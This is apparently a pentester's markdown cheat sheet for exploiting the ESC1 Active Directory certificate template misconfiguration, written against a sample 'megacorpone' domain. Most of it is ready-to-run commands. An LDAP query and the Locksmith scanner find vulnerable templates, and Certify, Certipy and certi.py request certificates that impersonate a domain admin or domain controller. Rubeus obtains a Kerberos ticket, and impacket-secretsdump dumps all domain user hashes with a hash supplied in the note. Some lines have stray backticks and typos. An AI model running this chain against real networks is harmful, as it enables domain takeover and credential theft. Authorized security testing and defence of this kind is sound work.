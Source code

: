 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# General Overview: 

A certificate template with the ESC1 vulnerability allows low-privileged users to enroll and request certificates on behalf of any domain object they specify. This means that any user with enrollment rights can request a certificate for a high-privilege account, such as a domain administrator.

To exploit ESC1, the certificate template must meet specific criteria:

- **Enrollment Rights**: The user’s group must have enrollment rights, allowing them to request a new certificate from the Certificate Authority (CA).
- **Extended Key Usage: Client Authentication**: The template must support client authentication, enabling the generated certificate to authenticate to domain computers.
- **Enrollee Supplies Subject**: This option must be set to True, allowing the user to supply the SAN (Subject Alternative Name).
- **No Manager Approval Required**: The certificate request should be auto-approved without needing manager approval.

# Abusing ESC1 Certificates

## PowerShell:
- `Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=megacorpone,DC=com'`

## Locksmith: 
- Source: https://github.com/TrimarcJake/Locksmith
1.  `Import-Module ./Locksmith.psd1`
2.  `Invoke-Locksmith -Scan All`
3. `Invoke-Locksmith -Scans ESC1`
4. `Invoke-Locksmith -Scans ESC1,ESC2,ESC8`

## Certify:
- `Certify.exe request /ca:ca.megacorponeone.com\domain-DC-CA /template:VulnTemplate /altname:'domain admin'`

## Certipy:

Specify a user account in the SAN:
User Account: 
- `certipy-ad req -u "afsimmons@megacorpone.com" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -upn 'xadmin'
- `certipy-ad req -u "afsimmons@megacorpone.com" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -upn 'xadmin@megacorpone.com -dns dc.megacorpone.com'
Computer Account: 
- `certipy-ad req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -dns 'dc.megacorpone.com'
## Certi
- `python certi.py 'megacorpone.com/afsimmons@dc01.megacorpone.com' megacorpone-DC01-CA -k -n --alt-name spawn --template UserSAN`
`
# Converting the vulnerable ESC1 template:

## OpenSSL

`openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx`

## Rubeus: 

`Rubeus.exe asktgt /user:xadmin /certificate:C:\Temp\cert.pfx`

# Abusing our vulnerable template: 

## certipy
Authenticating with certipy:
- ` certipy-ad auth -pfx vulnerable.pfx -dc-ip 172.21.0.0`
Using secretdumps to dump all user hashes with the extracted hash from certipy:
- impacket-secretsdump 'megacorpone.com/DC1@172.21.0.0' -hashes 'aad3c435b514a4eeaad3b935b51304fe:c46b9e588fa0d112de6f59fd6d58eae3'



Reference: 
 - https://redfoxsec.com/blog/exploiting-misconfigured-active-directory-certificate-template-esc1/
 - https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
